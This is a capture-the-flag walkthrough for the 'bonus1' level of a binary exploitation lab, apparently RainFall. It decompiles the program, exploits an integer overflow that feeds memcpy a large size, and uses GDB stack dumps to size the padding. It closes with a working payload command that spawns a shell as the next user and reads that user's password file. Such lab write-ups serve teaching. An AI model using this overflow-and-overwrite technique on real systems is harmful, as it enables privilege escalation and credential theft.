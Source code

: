 # Walkthrough

We decompile the `bonus1` binary with dogbolt.

```c
int main(int argc, const char **argv, const char **envp)
{
  char dest[40]; 
  int n; 

  n = atoi(argv[1]);
  if ( n > 9 )
    return 1;
  memcpy(dest, argv[2], 4 * n);
  if ( n == 1464814662 )
    execl("/bin/sh", "sh", 0);
  return 0;
}
```
Our goal is to set the value of `n` at `1464814662` while passing something something smaller than 9 (strictly).
To do that, we will make use of the `memcpy` function between the two `n` checks. 

We disassemble main, we see that the address being checked is `esp+0x3c`:
```
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
```

The start value of the stack pointer is `0xbffff760`, if we add `0x3c` it's now `0xbffff79c`.
```
(gdb) i r $esp
esp            0xbffff760	0xbffff760
```
First, let's check that in GDB:
```
(gdb) b *0x08048478
Breakpoint 2 at 0x8048478
(gdb) run 9 AAAABBBBCCCCDDDD
Breakpoint 2, 0x08048478 in main ()
(gdb) set *(int *)(0xbffff79c) = 1464814662
(gdb) c
Continuing.
process 4855 is executing new program: /bin/dash
$ whoami
bonus1
```
Now, we need to use `memcpy` to write `1464814662`, "WOLF", at `esp + 0x3c`. 

Upon fiddling with the programme, you soon realise that 9 isn't enough to write at the desired memory address. Thus, we need to find a way around, overflowing an int, and taking advantage of the cast in `size_t` when `memcpy` is called.

To test it, I have made a little program from the source code:
```c
#include <stdlib.h>
#include <stdio.h>

int main(int ac, char **av) {
  int n; 

	n = atoi(av[1]);
	if ( n > 9 ) {
		printf("Nope\n");
		return 1;
	}
	printf("%d\n", n);
	printf("%zu\n", 4 * (size_t)n);
	if ( n == 1464814662 )
		printf("Passed\n");
	return 0;

}
```
**Compile and it execute it on your VM, NOT YOUR COMPUTER or you'll have different results like I had and bang your head on your desk**:
Results on my computer (OSX Intel 64-bit):
```
➜  rainfall ./test -2147483647
-2147483647
18446744065119617028
```
Results on the VM (Debian 32-bit):
```
bonus1@RainFall:~$ ./test -2147483647
-2147483647
4
```
The way memory and functions work can vary a LOT depending on the implementation of a function, endianess, system type (32, 64 bit)...


Using GDB, if you break at `memcpy`, you can look at ESP:
```
(gdb) x/20x $esp
0xbffff740:	0xbffff754	0xbffff95a	0x00000028	0x080482fd
0xbffff750:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff760:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff770:	0x41414141	0x41414141	0x574f4c46	0x8000000a
0xbffff780:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
```
Hence, we can compute $esp + 3c_{16} = bffff77c_{16}$, and our buffer start at `0xbffff754`.
$bffff77c_{16} - bffff754_{16} = 40_{10}$

Thus, we need 40 for the padding and 4 for the string "WOLF".

Using that program, we see that `-2147483637` gives us satisfactory:
```
bonus1@RainFall:~$ ./test -2147483637
-2147483637
44
```

Now, we craft the payload and execute it:
```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "FLOW"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
```
